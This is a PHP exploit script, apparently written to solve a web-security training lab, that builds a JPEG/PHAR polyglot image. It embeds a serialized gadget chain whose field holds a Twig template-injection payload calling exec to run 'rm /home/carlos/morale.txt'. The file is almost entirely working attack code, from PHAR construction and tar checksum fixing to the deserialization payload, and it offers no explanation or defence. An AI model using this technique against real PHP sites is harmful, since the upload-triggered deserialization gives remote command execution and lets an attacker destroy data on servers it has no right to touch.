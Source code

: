 **`phar_jpg_polyglot.php`:**
```php
<?php


function generate_base_phar($o, $prefix){
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();
    
    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

function generate_polyglot($phar, $jpeg){
    $phar = substr($phar, 6); // remove <?php dosent work with prefix
    $len = strlen($phar) + 2; // fixed 
    $new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);
    $contents = substr($new, 0, 148) . "        " . substr($new, 156);

    // calc tar checksum
    $chksum = 0;
    for ($i=0; $i<512; $i++){
        $chksum += ord(substr($contents, $i, 1));
    }
    // embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}


// pop exploit class
class CustomTemplate {}
class Blog {}

$object = new CustomTemplate;
$blog = new Blog;
$blog->user = 'any_user_you_want';
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$object->template_file_path = $blog;


// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

```